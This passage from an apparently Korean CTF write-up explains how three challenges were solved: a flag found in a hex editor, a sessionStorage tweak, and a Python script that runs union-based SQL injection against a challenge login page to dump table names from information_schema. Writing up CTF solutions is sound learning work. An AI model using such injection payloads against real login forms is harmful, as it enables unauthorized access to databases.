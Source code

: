 
### FindMe!

그냥 hxd로 까서 ctrl+f 로 FLAG 찾으니까 바로 나오더라.

Flag : `FLAG{0h_You_Find_IT_!_!}`



## WEB

### Secret_chest

js 코드보면 sessionStorage에 값을 저장한다. 그래서

```javascript
sessionStorage.setItem("lv","100");
```

하고 open 눌러주면 flag가 나온다.

Flag : `FLAG{1!tTle_2sy_3Asy_4l@g}`



### Normal_SQLI

login에서 바로 union based sqli가 가능하다.

이걸로 db 다 긁어봤는데 딱히 플래그로 보이는건 없었다.

```python
import requests

login = 'https://sdhsroot.kro.kr/Normal_SQLI/login.php'
logout = 'https://sdhsroot.kro.kr/Normal_SQLI/logout.php'
main = 'https://sdhsroot.kro.kr/Normal_SQLI/'

cookie = {"PHPSESSID" : "2kdlino8925k7468gtg1g6hl54"}

for i in range(0,100):
    query = "' union select (select table_name from information_schema.tables limit %d,1)-- -" % i
    data = {"id" : query, "pw":"A"}
    requests.post(login, data=data, cookies=cookie)

    req = requests.get(main, cookies=cookie).text
    req = req[req.find('hello')+6:]
    req = req[:req.find("<br>")]

    print req

    requests.get(logout, cookies=cookie)

```

대충 이런식으로 긁었다.
